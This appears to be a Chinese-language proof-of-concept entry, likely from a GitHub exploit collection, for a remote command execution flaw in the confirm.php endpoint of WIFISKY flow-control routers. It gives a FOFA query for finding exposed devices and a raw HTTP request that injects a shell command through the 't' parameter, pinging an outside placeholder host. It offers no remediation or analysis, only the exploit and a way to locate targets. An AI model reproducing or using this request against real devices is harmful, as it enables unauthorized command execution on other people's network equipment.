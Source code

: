 ## WIFISKY-7层流控路由器confirm.php接口处存在RCE漏洞


## fofa
```
title="WIFISKY 7层流控路由器"
```

## poc
```
GET /notice/confirm.php?t=;ping%20xxxx.com HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```
![8035e20182b98d952c2482a5b18701cb](https://github.com/wy876/POC/assets/139549762/0f2f8a21-bd53-427b-ac86-8627f29efc92)
